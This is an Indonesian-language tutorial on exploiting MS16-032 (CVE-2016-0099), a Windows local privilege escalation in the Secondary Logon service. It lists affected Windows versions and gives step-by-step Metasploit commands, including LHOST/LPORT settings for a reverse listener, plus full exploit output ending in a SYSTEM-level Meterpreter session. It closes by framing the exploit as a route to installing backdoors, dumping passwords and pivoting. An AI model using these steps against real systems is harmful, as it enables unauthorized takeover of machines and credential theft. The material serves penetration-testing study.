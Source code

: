 # MS16-032

## A. Apa itu MS16-032?

[MS16-032](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-0099) adalah kerentanan local privilege escalation pada sistem operasi Windows yang ditemukan pada layanan Secondary Logon Service (`seclogon.dll`). Kerentanan ini memungkinkan penyerang dengan hak akses user biasa untuk menaikkan hak akses menjadi `SYSTEM`, yaitu level tertinggi di sistem Windows.

Eksploitasi ini terjadi karena adanya kesalahan pengelolaan handle token proses yang dilakukan oleh `seclogon.dll`, sehingga memungkinkan penyerang untuk menyisipkan proses baru dengan hak akses `SYSTEM` menggunakan teknik `CreateProcessWithLogonW()`.

## B. Detail Teknis:
- **CVE ID**: `CVE-2016-0099`
- **Buletin Microsoft**: `MS16-032`
- **Tanggal Rilis**: `9 Maret 2016`
- **Tipe**: Local Privilege Escalation (`LPE`)
- **Arsitektur**: `x86` dan `x64`
- **Platform**: `Windows`

## C. Sistem yang Rentan:
- `Windows Vista SP2`
- `Windows Server 2008 SP2` dan `R2 SP1`
- `Windows 7 SP1`
- `Windows 8.1`
- `Windows Server 2012 Gold` dan `R2`
- `Windows RT 8.1`
- `Windows 10 Gold` dan `1511`

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS16-032:

   ```
   use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set session <ID>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set targets <ID>
   msf6 > set verbose true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   exploit
   ```

Jika hasil output-nya seperti ini:

```
[*] PS1 loaded from /usr/share/metasploit-framework/data/exploits/CVE-2016-0099/cve_2016_0099.ps1
[*] Writing payload file, C:\Users\ADMIN\AppData\Local\Temp\zdwvVpZzyRCY.ps1...
[*] Compressing script contents...
[+] Compressed size: 3723
[*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1112

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[ref] cannot be applied to a variable that does not exist.
At line:200 char:59
+         $dhA = [Ntdll]::NtImpersonateThread($qdY, $qdY, [ref]$qi <<<< )
    + CategoryInfo          : InvalidOperation: (qi:Token) [], RuntimeExceptio 
   n
    + FullyQualifiedErrorId : NonExistingVariableReference
 
[!] NtImpersonateThread failed, exiting..
[+] Thread resumed!

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
Cannot convert argument "0", with value: "", for "DuplicateToken" to type "Syst
em.IntPtr": "Cannot convert null to type "System.IntPtr"."
At line:259 char:35
+     $dhA = [Advapi32]::DuplicateToken <<<< ($nxfWT, 2, [ref]$isTl)
    + CategoryInfo          : NotSpecified: (:) [], MethodException
    + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument
 
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

EpGsSpsRhiU1UMP9YNyfQwBdFAPYrXHh
[+] Executed on target machine.
[*] Sending stage (203846 bytes) to 192.168.1.50
[*] Meterpreter session 8 opened (192.168.1.42:4444 -> 192.168.1.50:49161) at 2025-05-14 03:42:55 +0700
[+] Deleted C:\Users\ADMIN\AppData\Local\Temp\zdwvVpZzyRCY.ps1

meterpreter > 
```

Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

```
meterpreter > getuid 
```

Hasil output-nya seperti ini:

```
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

## E. Contoh Kasus:

Seorang attacker berhasil masuk ke sistem Windows 7 sebagai user biasa via `exploit` atau `reverse shell`, namun aksesnya terbatas. Dengan `MS16-032`, attacker dapat meningkatkan hak akses ke `SYSTEM` dan memiliki kontrol penuh atas sistem, termasuk `instalasi backdoor`, `dump password`, dan `pivoting ke jaringan internal`.

   
